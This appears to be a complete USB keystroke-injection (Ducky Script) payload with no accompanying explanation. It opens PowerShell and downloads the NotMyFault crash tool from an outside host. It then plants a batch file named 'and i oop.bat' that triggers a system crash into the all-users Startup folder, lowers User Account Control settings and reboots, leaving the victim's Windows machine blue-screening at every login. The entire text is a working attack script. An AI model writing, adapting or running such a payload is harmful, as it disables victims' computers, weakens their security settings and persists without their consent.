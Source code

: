     DELAY 5000
    GUI r
    DELAY 600
    STRING powershell
    DELAY 600
    ENTER
    DELAY 900
    STRING curl -o havefun.zip "https://download.sysinternals.com/files/NotMyFault.zip"
    DELAY 700
    ENTER
    DELAY 10000
    STRING exit
    DELAY 600
    ENTER
    DELAY 700
    GUI r
    DELAY 700
    STRING cmd
    DELAY 700
    ENTER
    DELAY 900
    STRING echo %username% |clip
    DELAY 700
    ENTER
    DELAY 700
    STRING exit
    DELAY 700
    ENTER
    DELAY 700
    GUI r
    DELAY 700
    STRING powershell
    DELAY 700
    CONTROL SHIFT ENTER
    DELAY 800
    LEFTARROW
    DELAY 700
    ENTER
    DELAY 700
    STRING Expand-Archive -Path "C:\Users\
    DELAY 700
    CONTROL v
    DELAY 900
    BACKSPACE
    DELAY 700
    BACKSPACE
    DELAY 900
    STRING \
    DELAY 700
    STRING havefun.zip" -DestinationPath "C:\Windows\Installer"
    DELAY 700
    ENTER
    DELAY 1500
    STRING exit
    DELAY 700
    ENTER
    DELAY 700
    GUI r
    DELAY 600
    STRING notepad
    DELAY 600
    ENTER
    DELAY 600
    STRING @echo off
    DELAY 600
    ENTER
    STRING C:\Windows\Installer\notmyfault.exe /crash
    DELAY 600
    CONTROL s
    ALT d
    DELAY 800
    STRING Documents
    DELAY 800
    ENTER
    DELAY 700
    ALT n
    DELAY 800
    STRING and i oop.bat
    DELAY 850
    ALT t
    DELAY 700
    DOWNARROW
    DELAY 700
    DOWNARROW
    DELAY 700
    ENTER
    DELAY 700
    ALT s
    DELAY 800
    ALT F4
    DELAY 800
    GUI r
    DELAY 800
    STRING cmd
    DELAY 800
    CONTROL SHIFT ENTER
    DELAY 800
    LEFTARROW
    DELAY 850
    ENTER
    DELAY 800
    STRING echo %username% |clip
    DELAY 800
    ENTER
    DELAY 800
    STRING cd..
    DELAY 800
    ENTER
    DELAY 800
    STRING cd..
    DELAY 800
    ENTER
    DELAY 800
    STRING cd Users\
    DELAY 800
    CONTROL v
    DELAY 900
    ENTER
    DELAY 800
    STRING move "Documents\and i oop.bat" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    DELAY 800
    ENTER
    DELAY 900
    STRING C:\Windows\System32\UserAccountControlSettings.exe
    DELAY 700
    ENTER
    DELAY 800
    TAB
    DELAY 700
    DOWNARROW
    DELAY 700
    DOWNARROW
    DELAY 700
    TAB
    DELAY 700
    ENTER
    DELAY 800
    LEFTARROW
    DELAY 700
    ENTER
    DELAY 800
    STRING shutdown /r /t 0
    DELAY 700
    ENTER    
